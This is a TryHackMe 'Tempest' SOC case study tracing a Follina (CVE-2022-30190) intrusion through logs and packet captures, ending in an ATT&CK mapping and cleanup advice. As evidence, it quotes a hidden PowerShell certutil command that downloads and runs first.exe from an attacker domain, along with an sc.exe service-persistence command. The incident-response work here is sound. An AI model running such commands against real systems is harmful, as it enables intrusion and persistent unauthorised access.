**Tempest — Case Study**

*TryHackMe SOC Investigation*

| Analyst | *Quy Pham* |
| :---- | :---- |
| **Date** | *08/26/2026* |
| **Room** | *Tempest* |

# **1\. What Was My Goal**

Reconstruct the attack chain from initial access through exploitation, persistence, command and control, internal reconnaissance, privilege escalation, account creation, and post-compromise persistence, while correlating endpoint and network artifacts.

# **2\. What I Did**

*Narrative walkthrough of the investigation, written as a story rather than a task-by-task recap.*

As reported by the SOC alert, the intrusion began with a malicious document. The alert also included the following key details:

* The malicious document has a .doc extension.

* The user downloaded the malicious document via chrome.exe.

* The malicious document then executed a chain of commands to achieve code execution.

### **Investigation Methodology**

I used an evidence-driven pivoting approach. For each finding, I first identified an observable artifact, formed a hypothesis about its significance, then pivoted to additional endpoint or network telemetry to validate that hypothesis. Conclusions were based on correlated evidence rather than on any single event:

*Alert → identify initial artifact → pivot to process → pivot to child process → pivot to domain → pivot to downloaded files → pivot to network traffic → decode C2 → reconstruct attacker actions → validate with endpoint telemetry → build timeline.*

### **Attack Chain Reconstruction**

| Phase | Evidence | Finding |
| :---- | :---- | :---- |
| Initial Access | free\_magicules.doc | Malicious Word document delivered to benimaru |
| Exploitation | msdt.exe | Follina exploitation (CVE-2022-30190) |
| Stage 2 Payload | PowerShell \+ update.zip | Payload downloaded from phishteam.xyz |
| Persistence | update.lnk | Startup-folder persistence established |
| Execution | first.exe | Stage 2 binary executed after logon |
| Command & Control | resolvecyber.xyz | HTTP-based C2 channel established |
| Discovery | Decoded HTTP commands | Host / network reconnaissance conducted over C2 |
| Potential Lateral-Movement Vector | TCP/5985 (WinRM) | Found listening — not confirmed to have been used |
| Network Tunneling | ch.exe (Chisel) | Reverse SOCKS proxy deployed for network reachability (not a separate C2 channel) |
| Privilege Escalation (attempted) | spf.exe | Privilege-escalation tool identified; successful elevation not directly confirmed |
| Account Creation | shuna, shion | Attacker created two local accounts |
| Privilege Assignment | shion | Added to local Administrators group |
| Persistence | TempestUpdate2 | Windows service created to execute final.exe |

## **Step 1 — Investigation Activity**

Starting from the alert detail that the malicious document had a **.doc extension**, I wanted to answer three questions: What is the actual file? What happened after it was opened? And from what IP address was it downloaded? I began by searching Timeline Explorer for it.



*Figure 1 — Full file name identified: free\_magicules.doc*

Based on the download timestamp (2022-06-20 17:12:58) and filtering on Event ID 22, I identified the download **domain as http://phishteam.xyz**.

## **Step 2 — Find What Happened After the Word File Was Opened**

Although I could see the file name, I couldn't see its activity. To find out what happened next, I pivoted on the process ID from the event log and searched for **"ParentProcessID: 496"**.




*Figure 2 — Locating the child process of the .doc file and its payload*

The child process name is **msdt.exe**.

## **Step 3 — Decode the Payload to See What Actually Happened**

I used CyberChef to decode the payload:



*Screenshot 3 — Decoding the payload in CyberChef*

I also found that the payload connects to the same malicious domain, **http://phishteam.xyz**, to **download update.zip**, unzip it, and place it in the **Startup folder for persistence**.

Searching for this payload, I identified the associated CVE: **CVE-2022-30190 — Follina**.

## **Step 4 — Pivot on the Domain (phishteam.xyz)**



*Figure 4 — Pivoting on http://phishteam.xyz*

Four files were found downloaded from this domain: first.exe, ch.exe, spf.exe, and final.exe.

## **Step 5 — Continue Pivoting on msdt.exe (Identified in Step 2\)**

I found four files created by msdt.exe:



*Figure 5 — Files created by msdt.exe*

## **Step 6 — Determine What the Persistence Mechanism Does in the Startup Folder (Continued from Step 3\)**

The payload showed it was writing to the Startup folder. Searching the Startup folder confirmed that update.zip had been extracted there, dropping:

| C:\\Users\\benimaru\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\update.lnk |
| :---- |


*Figure 6 — update.lnk in the Startup folder*

Searching for update.lnk directly didn't return any command-line results. Since it sits in the Startup folder, I reasoned that after user login it would likely spawn cmd.exe or powershell.exe with explorer.exe as the parent process. Searching for PowerShell events with parent process explorer.exe and Event ID 1 turned up the following event:

| C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe \-w hidden \-noni certutil \-urlcache \-split \-f 'http://phishteam.xyz/02dcf07/first.exe' C:\\Users\\Public\\Downloads\\first.exe; C:\\Users\\Public\\Downloads\\first.exe |
| :---- |



*Figure 7 — PowerShell event downloading and executing first.exe*

After the download, the process connected to resolvecyber.xyz (Event ID 22). 

## **Step 7 — Pivot on resolvecyber.xyz**

This time there was no executable information, just a large volume of DNS queries, so I couldn't identify the actual activity from this pivot alone.



*Figure 8 — DNS activity for resolvecyber.xyz*

## **Step 8 — Use the PCAP to Investigate in Wireshark**

Sysmon showed first.exe communicating with resolvecyber.xyz over port 80 (Step 6). I then pivoted to the corresponding PCAP traffic and identified HTTP GET requests to the same infrastructure containing Base64-encoded data in the q parameter — correlating the network traffic with the first.exe C2 activity. Filtered on http://resolvecyber.xyz with the GET method:



*Figure 9 — HTTP GET requests to resolvecyber.xyz*

That parameter (q=cHdk...) contains Base64-encoded command output. To extract and decode all of these requests at once, I had AI help write a PowerShell script. The decoded output showed a list of commands, starting with network and host discovery:



*Figure 10 — Decoded command output*

# Extract and Decode Base64 Queries from PCAP

```powershell
# 1. Extract all URIs matching the pattern from the pcap
$queries = tshark -r "your_capture.pcap" -Y "http.request.method == GET" -T fields -e http.request.uri

# 2. Extract the base64 string from '?q=', decode, and display
$queries | ForEach-Object {
    if ($_ -match '\?q=([^&\s]+)') {
        $b64 = $matches[1]
        # Clean URL-safe base64 characters if necessary
        $b64Fixed = $b64.Replace('-', '+').Replace('_', '/')
        # Pad string if needed
        while ($b64Fixed.Length % 4 -ne 0) { $b64Fixed += "=" }
        [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($b64Fixed))
        "-----------------------------"
    }
}
```

## **Step 9 — Attacker Network Discovery (from the Base64-Decoded Commands)**

From the network discovery command, the attacker enumerated a list of listening ports.




*Figure 11 — Listening ports discovered by the attacker*

Port 5985 was notable, as it's associated with WinRM (Windows Remote Management). This suggested a potential lateral-movement opportunity, though nothing at this point yet confirmed the attacker actually used it.  Right after that, the attacker downloaded **ch.exe** (SHA-256: 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451).


Looking up this hash on VirusTotal identified the file as chisel.exe. Rather than acting as a separate C2 channel, Chisel functions as a reverse SOCKS proxy — its likely purpose here was to give the attacker network reachability to internal services (such as WinRM on TCP/5985), not to relay commands directly. 




*Figure 12 — VirusTotal detection for ch.exe (chisel.exe)*

## **Step 10 — Discover Other Files**

The ch.exe file reminded me of the list of files associated with the phishteam.xyz domain from Step 4: first.exe → ch.exe → spf.exe → final.exe.

**spf.exe** (SHA-256: 8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D) was identified on VirusTotal as a privilege-escalation tool. Its presence was investigated as part of the attacker's privilege-escalation phase; however, this investigation did not capture direct endpoint evidence — such as a SYSTEM-level process spawned from spf.exe — confirming that the escalation attempt succeeded. 



*Figure 13 — VirusTotal detection for spf.exe*

**final.exe** (SHA-256: 03e1840a24506afc88ab5ff7f83d2b07b558b34ff42dd34dd93267fd2e7a74e6) came back on VirusTotal as a trojan, detected as trojan.tl0101ei26zu.




*Figure 14 — VirusTotal detection for final.exe*

## **Step 11 — Back to the Decoded Commands: Communication with the Reverse SOCKS Proxy**

Reviewing the decoded commands, I found these critical facts:

* The attacker created two user accounts: shuna and shion.

* shion was added to the local Administrators group.

* The attacker maintained administrative persistence using the Service Control Manager:

```powershell
| sc.exe \\\\TEMPEST create TempestUpdate2 binpath= C:\\ProgramData\\final.exe start= auto |
| :---- |
```

These account and service changes were observed directly in the decoded C2 commands.  

# **3\. Investigation Timeline**

*The most important evidence discovered during the investigation, organized chronologically to show how the attack progressed and why each step likely followed the last.*

| Time | Evidence | What Happened | Why the Attacker Did It |
| :---- | :---- | :---- | :---- |
| 2022-06-20 17:12:58 | free\_magicules.doc | Malicious document delivered | Gain initial access |
| 2022-06-20 17:12:58 | msdt.exe | Follina execution (CVE-2022-30190) | Achieve code execution |
| 2022-06-20 17:12:58 | update.zip | Payload downloaded | Establish persistence |
| 2022-06-20 17:13:40 | update.lnk | Startup-folder persistence created | Execute automatically at next logon |
| 2022-06-20 17:15:14 | first.exe | Executed; C2 channel established | Enable remote command execution |
| 2022-06-20 17:15:14+ | Base64 HTTP commands | Decoded via PCAP | Issue remote commands over C2 |
| 2022-06-20 17:17:38 | Recon commands (netstat) | Host / network discovery | Identify further opportunities |
| — | TCP/5985 | Found listening (WinRM) | Potential remote-access opportunity (not confirmed used) |
| 2022-06-20 17:17:36 | ch.exe (Chisel) | Reverse SOCKS tunnel deployed | Gain network reachability to internal services |
| 2022-06-20 17:20:06 | spf.exe | Privilege-escalation tool identified | Attempted privilege escalation (elevation not directly confirmed) |
| 2022-06-20 17:21:05 | final.exe | Identified as a trojan | Additional payload / persistence |
| 2022-06-20 17:27:192022-06-20 17:27:28 | shuna, shion | Accounts created | Establish persistent access |
| (post-privesc) | shion → Administrators | Local group modified | Obtain administrative access |
| (post-privesc) | TempestUpdate2 | Service created | Persistent, reboot-surviving access |

# **4\. MITRE ATT\&CK Mapping**

| Technique | Evidence in Investigation | ATT\&CK ID |
| :---- | :---- | :---- |
| User Execution: Malicious File | free\_magicules.doc | T1204.002 |
| Exploitation for Client Execution | Follina / msdt.exe | T1203 |
| Command and Scripting Interpreter: PowerShell | powershell.exe | T1059.001 |
| Startup Folder | update.lnk | T1547.001 |
| Application Layer Protocol: Web Protocols | HTTP C2 to resolvecyber.xyz | T1071.001 |
| System / Network Discovery | Listening-port enumeration (netstat) | T1046 / T1018 |
| Proxy: External Proxy | Chisel / reverse SOCKS | T1090 |
| Create Account | shuna, shion | T1136.001 |
| Account Manipulation | shion added to Administrators | T1098 |
| Windows Service | TempestUpdate2 | T1543.003 |

**T1547.001 — Startup Folder:** update.lnk was written to the compromised user's Startup directory. Its location and subsequent execution at logon are evidence of persistence through the Startup Folder mechanism.

**T1543.003 — Windows Service:** the attacker used sc.exe to create a new service (TempestUpdate2) configured to run final.exe automatically, providing persistent, administrative-level access that survives a reboot.

**Not mapped:** Remote Services: Windows Remote Management (T1021.006). TCP/5985 was found open during discovery, which would support this technique if WinRM were confirmed to have been used for remote execution. This investigation did not capture direct evidence of that usage (e.g., WinRM connection logs or a remote-execution process), so it is noted here rather than mapped as a confirmed technique.

# **5\. What I Learned**

When I first found free\_magicules.doc, I assumed I could use the file name to locate the payload. In fact, I could only find the payload by pivoting to its child process using the filter "ParentProcessID: 496".

After finding the domain name, pivoting on it in search helped surface all the files dropped on the system.

Choosing the right log source matters. When investigating the activity between the compromised endpoint and its C2 server, resolvecyber.xyz, Sysmon logs only showed me the DNS queries — not the URIs. To see the full network activity, I had to switch to the PCAP instead.

### **Hardest Part to Pivot On**

The part that took the most time was locating the persistence payload. Although I knew the file's location and searched for update.lnk, it returned only a single event — the file being dropped into the Startup folder. I learned that when cmd.exe or powershell.exe runs from the Startup folder after user login, its parent process is explorer.exe. So the right approach is to search for powershell.exe or cmd.exe events and filter for a parent process of explorer.exe.

### **Containment, Eradication & Recovery Recommendations**

**Containment:** isolate the compromised host from the network to stop further C2 communication or lateral movement, and block phishteam.xyz and resolvecyber.xyz at the firewall/proxy level.

**Eradication:** remove the TempestUpdate2 service and C:\\ProgramData\\final.exe, delete the Startup-folder persistence artifact (update.lnk) and related dropped files, and remove ch.exe and spf.exe from disk.

**Recovery:** disable or reset the attacker-created accounts (shuna, shion) and remove shion from the local Administrators group, reset credentials for any accounts active on the host during the incident window, and apply the Microsoft update (or disable the MSDT URL protocol) to remediate CVE-2022-30190. Given the level of access achieved — local administrator plus a persistent service — re-image the host if full eradication cannot be verified.
